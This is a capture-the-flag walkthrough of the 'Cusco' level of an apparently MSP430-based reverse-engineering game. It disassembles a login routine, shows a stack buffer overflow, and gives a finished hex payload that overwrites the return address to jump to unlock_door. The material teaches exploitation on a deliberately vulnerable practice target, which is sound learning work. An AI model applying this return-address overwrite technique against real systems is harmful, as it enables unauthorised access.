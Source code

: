 # Cusco  

`main` now only calls the `login` function:  

```nasm
4438 <main>
4438:  b012 0045      call	#0x4500 <login>
```

Looking at `login`:  

```nasm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>               ; Breakpoint 1 goes here
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

This time the `TST / JMP` is different:  

```nasm
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
```

So the result of the `test_password_valid` is 0.  Then the JMP is taken down to "That password is not correct".  

```nasm 
4452 <test_password_valid>
4452:  0412           push	r4
4454:  0441           mov	sp, r4
4456:  2453           incd	r4
4458:  2183           decd	sp
445a:  c443 fcff      mov.b	#0x0, -0x4(r4)
445e:  3e40 fcff      mov	#0xfffc, r14
4462:  0e54           add	r4, r14
4464:  0e12           push	r14
4466:  0f12           push	r15
4468:  3012 7d00      push	#0x7d
446c:  b012 4245      call	#0x4542 <INT>           ; Breakpoint 2 goes here.
4470:  5f44 fcff      mov.b	-0x4(r4), r15
4474:  8f11           sxt	r15
4476:  3152           add	#0x8, sp
4478:  3441           pop	r4
447a:  3041           ret
```

This is less intuitive than last time, so walk through it and see what happens.  I've annotated two breakpoints, so set them on `4520` and `446c`.  The first breakpoint is on the `test_password_valid` call itself, while the second one is another `call` inside of it.  Instead of deep diving the second breakpoint (not needed, yet), watch what happens below.  
As always, this program wants up to 16 characters of input, but from previous, we'll toss in a few more.  
Use the following 24 character string (non-hex.. for now):  
```
AAAABBBBCCCCDDDDEEEEFFFF
```
This is pretty common in any buffer overflow, because `A` is `0x41`, `B` is `0x42`, up to `F` being `0x46`.  

![](images/2021-04-17-10-18-37.png)  

`c`ontinue until the first breakpoint is hit:  
![](images/2021-04-17-10-20-58.png)  

`c`ontinue until the second breakpoint is hit:  
![](images/2021-04-17-10-21-38.png)  

Step over this breakpoint by using `n`ext instruction.  
![](images/2021-04-17-10-22-12.png)  

Continue using `n`ext instruction until you are sitting on the `ret`:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-23-01.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-23-16.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

Looking at the `sp`'s **value** shows where we are going to `ret` to.  Why does this matter here?  It doesn't at this moment.. but good habits to get into.  Knowing where you are / going.  
This shows we'll be `ret` to `24 45`, but remember **endianness** so that's `4524`, hit `s`tep and you'll see the `pc` and current instruction is `4524` as expected:  


<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-29-00.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-29-08.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

`n`ext instruction, you'll see the `tst` occur, and then get ready to take the `jz` at address `4526`:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-32-01.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-32-12.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

At this point when you hit `n`ext instruction you're going to have this happen:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-34-13.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-34-25.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

Notice the program counter `pc` is at `0x4545`?  We control EIP.  You can use `s`tep instead of `n`ext instruction if you want to see how it specifically occurs.. but it doesn't matter.. yet.  
So what can we do with this?  Well just redirect the code to right below the `jz`:  
```nasm
4528:  b012 4644      call	#0x4446 <unlock_door>               ; Overflow and JMP to this address
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
```

`reset` the program and this time, swap it to HEX input and enter:  
```
414141414141414141414141414141412845
```

That is **16** `A`'s (0x41) followed by the address `4528`, but in little endian form:  
![](images/2021-04-17-10-40-07.png)  

`solve` the program with that input!